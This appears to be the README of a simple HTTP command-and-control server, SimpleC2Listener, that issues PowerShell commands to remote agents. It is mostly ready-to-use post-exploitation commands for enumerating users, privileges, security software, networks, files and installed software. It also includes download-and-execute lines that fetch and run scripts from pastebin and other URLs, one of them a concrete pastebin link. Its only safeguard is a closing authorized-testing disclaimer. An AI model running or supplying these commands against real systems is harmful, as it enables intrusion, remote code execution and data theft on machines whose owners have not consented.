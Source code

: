 # SimpleC2Listener

Basic HTTP C2 server for remote command execution. Install this agent on your Command and Control Windows Host. Right click and 'Run As Administrator'

## Features
- HTTP-based beacon check-ins
- PowerShell command execution
- Agent session tracking
- Console interface

## Usage
1. Build and run: `dotnet run`
2. Connect agents to `http://your-ip:8080`
3. Use console commands: `cmd <agent> <command>`


Run a test recon script

cmd agent_001 IEX (New-Object Net.WebClient).DownloadString('https://pastebin.com/raw/7iAQJzH1')

# PowerShell Command Examples

This section demonstrates various PowerShell commands that can be executed through the SimpleC2Listener framework. These commands showcase typical post-exploitation reconnaissance and system enumeration techniques used in cybersecurity assessments.

## Basic System Information

### User Context
```powershell
C2> cmd agent_001 whoami
C2> cmd agent_001 whoami /priv
C2> cmd agent_001 $env:USERNAME
```

### System Information
```powershell
C2> cmd agent_001 systeminfo
C2> cmd agent_001 Get-WmiObject -Class Win32_ComputerSystem
C2> cmd agent_001 Get-ComputerInfo | Select-Object WindowsProductName, TotalPhysicalMemory
```

### Operating System Details
```powershell
C2> cmd agent_001 Get-WmiObject -Class Win32_OperatingSystem
C2> cmd agent_001 hostname
```

## User and Group Enumeration

### Local Users
```powershell
C2> cmd agent_001 Get-LocalUser | Where-Object {$_.Enabled -eq $true}
C2> cmd agent_001 Get-LocalGroupMember -Group "Administrators"
```

### Current User Privileges
```powershell
C2> cmd agent_001 whoami /priv
C2> cmd agent_001 whoami /groups
```

## Process and Service Enumeration

### Running Processes
```powershell
C2> cmd agent_001 Get-Process | Select-Object -First 10
C2> cmd agent_001 Get-Process | Sort-Object CPU -Descending | Select-Object -First 10
C2> cmd agent_001 Get-Process | Where-Object {$_.ProcessName -eq "explorer"}
```

### Services
```powershell
C2> cmd agent_001 Get-Service | Where-Object {$_.Status -eq "Running"}
C2> cmd agent_001 Get-WmiObject -Class Win32_Service | Where-Object {$_.StartMode -eq "Auto" -and $_.State -eq "Running"}
```

### Security Software Detection
```powershell
C2> cmd agent_001 Get-Process | Where-Object {$_.ProcessName -match "defender|kaspersky|symantec|mcafee|norton"}
C2> cmd agent_001 Get-Service | Where-Object {$_.Name -match "defender|antivirus|firewall"}
```

## Network Reconnaissance

### Network Configuration
```powershell
C2> cmd agent_001 ipconfig /all
C2> cmd agent_001 Get-NetIPAddress | Where-Object {$_.AddressFamily -eq "IPv4"}
C2> cmd agent_001 Get-NetNeighbor | Where-Object {$_.State -eq "Reachable"}
```

### Network Connections
```powershell
C2> cmd agent_001 netstat -an | findstr LISTENING
C2> cmd agent_001 netstat -an | findstr ESTABLISHED
```

## File System Enumeration

### Directory Listings
```powershell
C2> cmd agent_001 dir C:\
C2> cmd agent_001 Get-ChildItem -Path C:\ -Force -ErrorAction SilentlyContinue
C2> cmd agent_001 dir C:\Users
C2> cmd agent_001 Get-ChildItem -Path "C:\Program Files" | Select-Object Name
```

### User Directories
```powershell
C2> cmd agent_001 dir C:\Users\%USERNAME%\Desktop
C2> cmd agent_001 dir C:\Users\%USERNAME%\Documents
C2> cmd agent_001 dir C:\Users\%USERNAME%\Downloads
```

### File Search
```powershell
C2> cmd agent_001 Get-ChildItem C:\ -Recurse -Include *.txt,*.doc,*.pdf -ErrorAction SilentlyContinue | Select-Object FullName -First 20
C2> cmd agent_001 dir C:\Users -Recurse -Include *.exe | Select-Object Name, Directory, Length
```

### Large Files
```powershell
C2> cmd agent_001 Get-ChildItem C:\Users -Recurse -ErrorAction SilentlyContinue | Where-Object {$_.Length -gt 100MB} | Select-Object FullName, Length
```

## System Event Logs

### Security Events
```powershell
C2> cmd agent_001 Get-EventLog -LogName Security -Newest 5 | Select-Object TimeGenerated,EventID,Message
C2> cmd agent_001 Get-EventLog -LogName System -Newest 10 | Select-Object TimeGenerated,Source,Message
```

## Remote Script Execution

### Execute Remote PowerShell Scripts
```powershell
C2> cmd agent_001 IEX (New-Object Net.WebClient).DownloadString('https://pastebin.com/raw/YOUR_SCRIPT_ID')
```

### Download and Execute from URL
```powershell
C2> cmd agent_001 Invoke-WebRequest -Uri "https://example.com/script.ps1" -UseBasicParsing | Invoke-Expression
```

## Advanced System Information

### Hardware Information
```powershell
C2> cmd agent_001 Get-WmiObject -Class Win32_Processor | Select-Object Name, NumberOfCores
C2> cmd agent_001 Get-WmiObject -Class Win32_PhysicalMemory | Measure-Object Capacity -Sum
```

### Installed Software
```powershell
C2> cmd agent_001 Get-WmiObject -Class Win32_Product | Select-Object Name, Version | Sort-Object Name
C2> cmd agent_001 Get-ItemProperty HKLM:\Software\Microsoft\Windows\CurrentVersion\Uninstall\* | Select-Object DisplayName, DisplayVersion
```

### Startup Programs
```powershell
C2> cmd agent_001 Get-WmiObject -Class Win32_StartupCommand | Select-Object Name, Command, Location
```

## Environment and Registry

### Environment Variables
```powershell
C2> cmd agent_001 Get-ChildItem Env: | Sort-Object Name
C2> cmd agent_001 $env:PATH
C2> cmd agent_001 $env:COMPUTERNAME
```

### Registry Queries
```powershell
C2> cmd agent_001 Get-ItemProperty -Path "HKLM:\SOFTWARE\Microsoft\Windows NT\CurrentVersion"
```

## Administrative Commands

### Scheduled Tasks
```powershell
C2> cmd agent_001 Get-ScheduledTask | Where-Object {$_.State -eq "Ready"} | Select-Object TaskName, TaskPath
```

### Windows Features
```powershell
C2> cmd agent_001 Get-WindowsFeature | Where-Object {$_.InstallState -eq "Installed"}
```

## Usage Notes

- Replace `agent_001` with your actual agent ID
- Some commands may require elevated privileges
- Add `-ErrorAction SilentlyContinue` to suppress error messages
- Use `Select-Object -First N` to limit output for large datasets
- Commands can be chained with PowerShell operators like `|`, `Where-Object`, etc.

## Security Testing Scenarios

These commands are commonly used in:
- **Post-exploitation reconnaissance**
- **Privilege escalation enumeration**
- **Lateral movement preparation**
- **Data discovery and exfiltration planning**
- **Security control identification**

**Important:** Only use these commands in authorized testing environments or systems you own.


